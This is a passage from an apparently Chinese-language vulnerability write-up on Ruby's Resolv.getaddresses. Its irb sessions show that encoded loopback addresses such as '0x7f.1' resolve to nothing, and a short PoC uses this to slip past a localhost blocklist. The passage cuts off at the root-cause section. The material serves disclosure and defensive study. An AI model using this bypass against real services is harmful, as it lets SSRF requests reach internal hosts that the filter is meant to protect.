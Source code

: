 环境1：`ruby 2.3.3p222 (2016-11-21) [x86_64-linux-gnu]`

环境2：`ruby 2.3.1p112 (2016-04-26) [x86_64-linux-gnu]`

在环境1中的实验结果如下所示：

```
irb(main):002:0&gt; Resolv.getaddresses("127.0.0.1")
=&gt; ["127.0.0.1"]
irb(main):003:0&gt; Resolv.getaddresses("localhost")
=&gt; ["127.0.0.1"]
irb(main):004:0&gt; Resolv.getaddresses("127.000.000.1")
=&gt; ["127.0.0.1"]
```

在环境2中的实验结果如下所示：

```
irb(main):008:0&gt; Resolv.getaddresses("127.0.0.1")
=&gt; ["127.0.0.1"]
irb(main):009:0&gt; Resolv.getaddresses("localhost")
=&gt; ["127.0.0.1"]
irb(main):010:0&gt; Resolv.getaddresses("127.000.000.1")
=&gt; []
```

在最新稳定版的Ruby中我们也能复现这个问题：

```
$ ruby -v
ruby 2.4.3p201 (2017-10-11 revision 60168) [x86_64-linux]
$ irb
irb(main):001:0&gt; require 'resolv'
=&gt; true
irb(main):002:0&gt; Resolv.getaddresses("127.000.001")
=&gt; []
```

**<br>**

**三、PoC**

```
irb(main):001:0&gt; require 'resolv'
=&gt; true
irb(main):002:0&gt; uri = "0x7f.1"
=&gt; "0x7f.1"
irb(main):003:0&gt; server_ips = Resolv.getaddresses(uri)
=&gt; [] # The bug!
irb(main):004:0&gt; blocked_ips = ["127.0.0.1", "::1", "0.0.0.0"]
=&gt; ["127.0.0.1", "::1", "0.0.0.0"]
irb(main):005:0&gt; (blocked_ips &amp; server_ips).any?
=&gt; false # Bypass
```



**四、根本原因**
